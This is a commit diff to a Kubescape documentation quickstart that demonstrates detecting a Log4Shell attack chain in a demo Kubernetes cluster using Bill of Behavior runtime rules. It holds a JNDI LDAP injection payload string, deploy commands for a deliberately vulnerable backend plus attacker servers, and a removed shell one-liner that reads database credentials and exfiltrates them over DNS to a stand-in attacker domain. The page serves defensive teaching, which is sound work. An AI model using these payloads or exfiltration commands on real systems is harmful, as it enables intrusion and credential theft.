

Before and after one commit to kubescape/kubescape.io, an MkDocs documentation site: the page built from docs/docs/operator/bill-of-behavior/quickstart.md, in a window 1280 px wide and 1400 px high, scrolled down 3948 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
remove tutorial.md
Signed-off-by: entlein <einentlein@gmail.com>

````diff
--- a/docs/docs/operator/bill-of-behavior/quickstart.md
+++ b/docs/docs/operator/bill-of-behavior/quickstart.md
@@ -122,7 +122,9 @@
 Bring up the whole chain (`log4j-poc`)[^scenarios], with the pods labelled `user-defined-profile/network` to bind the profiles from step 2.
 The manifest also includes the in-cluster attacker: a marshalsec LDAP server and a class-file HTTP server.
 
-[^scenarios]: **B** `backend-b.yaml` — `ghcr.io/k8sstormcenter/log4j-chain-backend-contained@sha256:f71e03993fec4df6ea947eda235d072f5c37569491fd32512a6d793369852e35` · **C** `backend-c.yaml` — `ghcr.io/k8sstormcenter/log4j-chain-backend-patched@sha256:cf34e119b720b0a31b5e5d2a7ede0e61eea0c14105c88558d80e7fa2a062290a`
+[^scenarios]:
+**B** `distroless` — `ghcr.io/k8sstormcenter/log4j-chain-backend-contained@sha256:f71e03993fec4df6ea947eda235d072f5c37569491fd32512a6d793369852e35`
+**C** `patched` — `ghcr.io/k8sstormcenter/log4j-chain-backend-patched@sha256:cf34e119b720b0a31b5e5d2a7ede0e61eea0c14105c88558d80e7fa2a062290a`
 
 ```bash
 kubectl apply -f https://raw.githubusercontent.com/k8sstormcenter/bob/main/example/log4j-chain/log4j-chain.yaml
@@ -130,11 +132,11 @@
 kubectl -n attacker-ns rollout status deploy/attacker --timeout=60s
 ```
 
-There are two non-vulnerable images in that registry, so you can contrast the detection. Choose the "vulnerable" one right now:
+There are two non-vulnerable images [^scenarios], so you can contrast the detection, default is the vulnerable:
 
 ```yaml
 # backend container, in log4j-chain.yaml
-image: ghcr.io/k8sstormcenter/log4j-chain-backend-vulnerable@sha256:8f3cb3f9…   # log4j 2.14.1 — JNDI enabled
+image: ghcr.io/k8sstormcenter/log4j-chain-backend-vulnerable@sha256:8f3cb3f9…   # 3 different backend images, this one is fully vulnerable
 ```
 
 ## 5. Fire the exploit
@@ -160,11 +162,11 @@
     R0011 (which skips private targets). To see the full DNS + egress detection, run the attacker on
     an external host and point the JNDI at it, e.g.
     `${jndi:ldap://<public-host>:1389/Payload}`. The demo's attacker image takes the codebase host as
-    an env var (`CODEBASE_HOST`), so it can run anywhere.
+    an env var (`CODEBASE_HOST`), so it can run anywhere. AT YOUR OWN RISK
 
 ## 6. See the detection
 
-First, recall what the profile **allows** — the two lists from the gif. Nothing here ever alerts:
+<!-- First, recall what the profile **allows** — the two lists from the gif. Nothing here ever alerts:
 
 ```bash
 kubectl -n log4j-poc get applicationprofile chain-backend \
@@ -176,32 +178,24 @@
   -o jsonpath='{range .spec.containers[0].egress[*]}{.identifier}{"\n"}{end}'
 #  egress-kube-dns   egress-chain-postgres                  # DNS + the database, nothing else
 ```
+ -->
 
-Now fire the payload and read the raw alerts — **one JSON object per rule violation**:
+Read the raw alerts — **one JSON object per rule violation**:
 
 ```bash
 kubectl -n kubescape logs -l app=node-agent --tail=200 | grep '"RuleID":"R' \
   | jq -c '{RuleID, alertName: .BaseRuntimeMetadata.alertName, args: .BaseRuntimeMetadata.arguments}'
 ```
 
-#### R0001 — remote code execution
+#### R0001 — unexpected process log4shell
 
-The alert's process tree is the smoking gun — a **JVM worker thread** spawned a shell:
+The alert's process tree is a very clean detection on what was attempted:
 
 ```
 java  (parent: containerd-shim)
- └─ sh  (parent: pool-2-thread-2)      ← a log4j/HTTP worker thread; a web server never execs a shell
+ └─ sh  (parent: pool-2-thread-2)  # means the shell actually happened
 ```
 
-and that shell's command line (the alert's `arguments.args`) is the entire attack in one line:
-
-```bash
-sh -c 'ROW=$(psql -h chain-postgres -U postgres -At -c "SELECT current_database()||chr(58)||current_user")
-       ENC=$(printf "%s" "$ROW" | base32 | tr -d "=" | cut -c1-40)
-       getent hosts "${ENC}.exfil.attacker.example.com"'      # read DB → encode → exfil over DNS
-```
-
-Every non-`java` binary that shell runs is outside the profile, so each raises its own R0001:
 
 ```json
 {"RuleID":"R0001","alertName":"Unexpected process launched","exec":"/bin/sh","comm":"sh","pcomm":"pool-2-thread-2"}
@@ -211,8 +205,10 @@
 {"RuleID":"R0001","alertName":"Unexpected process launched","exec":"/usr/bin/getent","comm":"getent","pcomm":"sh"}
 ```
 
-`psql` runs too — it's the payload reading the database — but `psql` **is** in the profile, so it
-does *not* alert. The attacker is abusing a permitted tool; the tell is the shell wrapped around it.
+
+!!! tip "Not every executable in the process tree is actually executed"
+    Careful when reading these alerts, only the uppermost process is the one eBPF saw with exec_cve. It may have further forks (`-c`) but if you dont see
+    those alerting, they may still have failed. Test this yourself with the patched and the distroless image
 
 #### R0005 — data exfiltration over DNS
 
@@ -223,27 +219,23 @@
  "domain":"OBXXG5DHOJSXGOTQN5ZXIZ3SMVZQ.exfil.attacker.example.com.","protocol":"UDP","port":39361}
 ```
 
-Decode the label — `echo OBXXG5DHOJSXGOTQN5ZXIZ3SMVZQ | base32 -d` → **`postgres:postgres`** — the
-database identity, smuggled out one DNS query at a time to a domain the profile never allows. That's
-the classic DNS-exfiltration channel, caught because the *domain*, not just the connection, is
-outside the `NetworkNeighborhood`.
+Decode the label — `echo OBXXG5DHOJSXGOTQN5ZXIZ3SMVZQ | base32 -d` → **`postgres:postgres`**
 
-Two rules, two facets of the same compromise — the RCE (**R0001**) and the credential theft it
-smuggles out over DNS (**R0005**) — reconstructed from kernel events and caught purely by deviation
-from the signed Bill of Behavior. You detected Log4Shell with **no CVE signature and no learning
-period** — purely because the backend did something its Bill of Behavior declares it never does.
 
-The third fingerprint — the outbound LDAP + HTTP call-out (**R0011**) — needs a couple of extra steps
+
+<!-- The third fingerprint — the outbound LDAP + HTTP call-out (**R0011**) — needs a couple of extra steps
 and is covered in [Also see: the egress rule (R0011)](#also-see-the-egress-rule-r0011) below.
 
 ```bash
 kubectl delete ns log4j-poc attacker-ns      # clean up
 ```
+-->
 
-## Also see: the egress rule (R0011) {#also-see-the-egress-rule-r0011}
 
-R0011 catches the outbound LDAP + HTTP that fetch the exploit class — the network fingerprint of
-Log4Shell. It's not in the turnkey path above for two reasons, both fixable:
+#### R0011 Outbound LDAP {#also-see-the-egress-rule-r0011}
+
+The JNDI string needs to resolve an outbound LDAP + HTTP to fetch the exploit class for
+Log4j
 
 **1. R0011 ships disabled.** Enable it in the installed rules:
 
@@ -254,9 +246,9 @@
                  | {op:"replace", path:"/spec/rules/\(.key)/enabled", value:true}]')"
 ```
 
-**2. R0011 skips private targets.** The in-cluster attacker is a ClusterIP (RFC-1918), so R0011 never
-fires against it. Run the attacker on an **external/public** host and point the JNDI there — the demo
-attacker image takes the codebase host as `CODEBASE_HOST`, so it runs anywhere:
+**2. R0011 skips private targets.** The in-cluster attacker is a ClusterIP (RFC-1918), so put the attacker on an **external/public** host
+ and point the JNDI there — the demo
+attacker image has an ENV var `CODEBASE_HOST`, so it runs anywhere:
 
 ```yaml
 # in attack-pod.yaml, the User-Agent JNDI
@@ -276,8 +268,6 @@
 
 ## Next
 
-- **[End-to-end example](tutorial.md)** — the same chain across three backends (vulnerable /
-  contained / patched), showing how the profile tells a *successful* exploit from a *contained* one.
-- **[What is a Bill of Behavior](index.md)** — the concept, the custom resources, and how wildcards,
-  signing, and compaction let you *ship* a profile instead of learning one.
+- **[What is a Software Bill of Behavior](index.md)** — the concept that lets you *ship* a profile instead of learning one.
 - **[Node Agent Rule Library](../node-agent-rule-library.md)** — the full catalog of detection rules.
+- **[Signing and Tampering](signing-and-tamper.md)** - how to make sure the profiles and rules are safe.
````
Also changed, not shown: docs/docs/operator/bill-of-behavior/index.md (+2 -2 lines), docs/docs/operator/bill-of-behavior/tutorial.md (deleted, +0 -150 lines).
